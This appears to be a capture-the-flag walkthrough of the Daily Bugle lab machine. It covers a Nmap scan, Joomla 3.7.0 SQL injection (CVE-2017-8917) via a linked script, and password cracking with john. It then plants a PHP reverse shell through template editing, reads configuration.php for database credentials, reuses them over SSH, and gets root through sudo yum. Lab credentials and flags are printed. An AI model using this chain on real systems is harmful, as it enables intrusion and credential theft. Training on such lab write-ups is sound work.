

# Daily Bugle

### Nmap Scan

```bash
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 61 OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCbp89KqmXj7Xx84uhisjiT7pGPYepXVTr4MnPu1P4fnlWzevm6BjeQgDBnoRVhddsjHhI1k+xdnahjcv6kykfT3mSeljfy+jRc+2ejMB95oK2AGycavgOfF4FLPYtd5J97WqRmu2ZC2sQUvbGMUsrNaKLAVdWRIqO5OO07WIGtr3c2ZsM417TTcTsSh1Cjhx3F+gbgi0BbBAN3sQqySa91AFruPA+m0R9JnDX5rzXmhWwzAM1Y8R72c4XKXRXdQT9szyyEiEwaXyT0p6XiaaDyxT2WMXTZEBSUKOHUQiUhX7JjBaeVvuX4ITG+W8zpZ6uXUrUySytuzMXlPyfMBy8B
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKb+wNoVp40Na4/Ycep7p++QQiOmDvP550H86ivDdM/7XF9mqOfdhWK0rrvkwq9EDZqibDZr3vL8MtwuMVV5Src=
|   256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP4TcvlwCGpiawPyNCkuXTK5CCpat+Bv8LycyNdiTJHX

80/tcp   open  http    syn-ack ttl 61 Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-generator: Joomla! - Open Source Content Management
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-title: Home
|_http-favicon: Unknown favicon MD5: 1194D7D32448E1F90741A97B42AF91FA

3306/tcp open  mysql   syn-ack ttl 61 MariaDB 10.3.23 or earlier (unauthorized)
```

---

### Website


- Administrator Login Page


---

### Joomla Scan → `joomscan`

```bash
joomscan -u http://10.10.217.186
```


- The Joomla version 3.7.0 is vulnerable to SQL injection.

---

### CVE-**2017-8917 → SQL Injection**

- Instead of using **SQLMap** to exploit the SQL injection vulnerability, we will utilize a **custom Python script**, as suggested by the hint:

> ***Instead of using SQLMap, why not use a python script!***
> 

***Exploitation POC:*** 

[GitHub - stefanlucas/Exploit-Joomla: CVE-2017-8917 - SQL injection Vulnerability Exploit in Joomla  3.7.0](https://github.com/stefanlucas/Exploit-Joomla/tree/master)

- Execute python script

```bash
python3 joomblah.py http://10.10.128.221/  
```


---

### Brute Force Password → john

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
```

- **Credentials:**

> **jonah:spiderman123**
> 


---

### Remote Code Execution (RCE)

- **RCE is located in the Templates section, where the PHP script can be modified to include a PHP reverse shell.**

***Steps to Deploy a PHP Reverse Shell via RCE in Templates***

**Step 1:**

Navigate to:

**Extensions → Templates → Templates**

```
http://<your_IP>/administrator/index.php?option=com_templates&view=template&id=503&file=aG9tZQ==
```

**Step 2:**

**Edit the** → `index.php`

file and replace its contents with a PHP reverse shell script.

**Reference:**

- https://github.com/pentestmonkey/php-reverse-shell/tree/master


**Step 3:**

Customize the PHP shell with your IP address and port, then start a Netcat listener on your local machine to catch the incoming connection.


---

### Configuration of MySQL Service

- MySQL service is running

```bash
cat /var/www/html/configuration.php
```

> **root:nv5uz9r3ZEDzVjNu**
> 


---

### SSH Login

- We’ve identified the username 'jjameson', so we can attempt to access the system via SSH using the previously obtained MySQL password.

> **jjameson:nv5uz9r3ZEDzVjNu**
> 


> **USER FLAG : 27a260fe3cba712cfdedb1c86d80442e**
> 


---

### Root Access

- We can use `sudo -l` to check if the user has permission to run any commands with root privileges.

```bash
sudo -l
```



- The user is allowed to run the `/usr/bin/yum` command with root privileges.
- We can use a GTFOBins payload to escalate privileges and obtain a root shell.


- Use `(b) Spawn interactive root shell by loading a custom plugin.`


> **ROOT FLAG: eec3d53292b1821868266858d7fa6f79**
> 

